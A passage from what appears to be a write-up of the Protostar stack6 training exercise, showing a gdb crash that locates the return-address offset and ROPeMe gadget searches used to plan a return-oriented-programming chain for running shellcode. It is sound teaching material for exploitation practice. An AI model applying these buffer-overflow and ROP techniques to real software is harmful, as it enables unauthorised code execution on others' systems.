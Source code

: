 Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
</code></pre>

Got it. So the magic number is 80 A's and then the return address (44 is E, 43 is D, etc). I'll save this for later.

Next, I needed to find what gadgets I could use to start building my chain. I thought of using <a href="http://shell-storm.org/project/ROPgadget/" target="_blank">ROPGadget</a> from <a href="http://shell-storm.org/" target="_blank">shell-storm</a>, but the Protostar VM only had Python 2.6 and did not play nice with Capstone (disassembly framework). The alternative that I found and ended up using was <a href="http://ropshell.com/ropeme/" target="_blank">ROPeMe</a>. I had never used this tool before, only ROPGadget, but it is just as helpful and has a nice search feature so you can quickly find certain gadgets to build your chain with. 

I started searching for ways to execute my shellcode...
<pre><code>
user@protostar:~$ ./ropeme-bhus10/ropeme/ropshell.py
Simple ROP interactive shell: [generate, load, search] gadgets
ROPeMe> generate /opt/protostar/bin/stack6
Generating gadgets for /opt/protostar/bin/stack6 with backward depth=3
It may take few minutes depends on the depth and file size...
Processing code block 1/1
Generated 56 gadgets
Dumping asm gadgets to file: stack6.ggt ...
OK
ROPeMe> search call eax %
Searching for ROP gadget:  call eax % with constraints: []
0x804847fL: call eax ; leave ;;
</code></pre>

Great, so we have a way to execute code via eax. Now we need to get data into eax. This can be done many different ways. The most straightforward way is to just pop from the stack into eax and then run the call instruction. So I tried to find that.

<pre><code>
ROPeMe> search pop eax %
Searching for ROP gadget:  pop eax % with constraints: []
0x804835cL: pop eax ; pop ebx ; leave ;;
</code></pre>

Unfortunately, there is a leave instruction at the end of this gadget, which will destroy the rest of my stack unless I do some manipulation. As a side note: it is okay that there is a leave in my call eax gadget because it will never actually get run because we are calling eax with our stack/registers all set up already so we do not need to worry about it. Another way that we can get data into eax as by using xchg. So a quick search for that...

<pre><code>
ROPeMe> search xchg %
Searching for ROP gadget:  xchg % with constraints: []
0x804844bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
</code></pre>

Score! Only one result and just the one we needed. A few things to worry about here, though. The lower part of eax (al) has 8 added to it and eax is added to whatever is in memory at ebx+0x5d5b04c4. So really we just need to make sure our shellcode has enough nops to account for the 8 added on to the calling register (eax), that's the easy part, though. The harder (but still fairly easy) part is to make sure ebx+0x5d5b04c4 is a valid memory location so we can modify it. If it isn't valid or we cannot modify it then the program will crash. To fix this I used gdb to pick a spot on the stack where the initial padding to overflow the buffer was placed. In this case A was used to fill the buffer up and overrun to just before the return address. 
